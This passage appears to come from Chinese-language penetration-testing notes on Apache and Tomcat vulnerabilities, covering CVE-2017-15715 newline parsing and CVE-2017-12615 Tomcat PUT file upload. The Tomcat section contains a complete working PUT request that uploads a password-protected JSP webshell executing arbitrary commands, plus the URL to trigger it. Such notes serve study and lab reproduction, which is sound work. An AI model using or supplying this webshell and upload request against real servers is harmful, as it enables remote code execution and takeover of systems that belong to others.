 **CVE-2017-15715-Apache换行解析漏洞**

* 影响版本：2.4.0 < HTTPD <2.4.29
* 漏洞详情
  * 在解析PHP时，1.php\x0A将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。
* 参考文章
  * https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2017-15715

#### Apache-tomcat

**CVE-2017-12615**

> Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

影响版本：Apache Tomcat 7.0.0 \~ 7.0.81 影响平台：Windows

传一个webshell

```
PUT /shell.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

/shell.jsp?cmd=whoami\&pwd=023

![image](img/tomcat1.png)
